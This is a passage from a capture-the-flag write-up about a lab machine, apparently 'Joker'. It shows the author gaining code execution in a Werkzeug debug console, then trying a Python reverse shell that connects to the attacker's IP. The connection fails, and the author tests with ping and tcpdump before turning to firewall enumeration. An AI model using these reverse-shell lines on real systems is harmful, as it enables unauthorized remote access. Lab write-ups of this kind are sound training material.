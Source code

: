 
    >>> os.getlogin()
    'werkzeug'



## Shell as werkzeug

### Failed Reverse Shell

As soon as I see code execution in this console, I'm looking to get a
legit shell. I'll start putting in the lines from a standard Python
reverse shell:



    >>> import os, pty, socket
    >>> s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    >>> s.connect(('10.10.14.13',80))



When I hit enter on that last line, it just disappears and nothing comes
back. Very strange. I tried to reload the console, but it just hung. My
best guess here is that the connection is failing (remember I couldn't
access my own host through the Squid), and then the console program
breaks waiting for it. Eventually the connection times out, and the
console comes back.

Figuring it could be some bug in how Python is doing it, I tried a Bash
shell with Python's `os.system`, but got the same results.

I checked to see if I could `ping` myself with `tcpdump` running on my
local box:



    >>> os.system('ping -c1 10.10.14.13')
    0



The `ping` does make it back:



    root@kali# tcpdump -ni tun0 icmp
    tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
    listening on tun0, link-type RAW (Raw IP), capture size 262144 bytes
    06:55:52.073158 IP 10.10.10.21 > 10.10.14.13: ICMP echo request, id 1432, seq 1, length 64
    06:55:52.073183 IP 10.10.14.13 > 10.10.10.21: ICMP echo reply, id 1432, seq 1, length 64



### Enumerating Firewall

Having had issues connecting from Joker to my box twice now, so it's
time to enumerate the firewall. Before I start running loops to test
what makes it out, I decided to try to print the firewall rules, and it
worked:
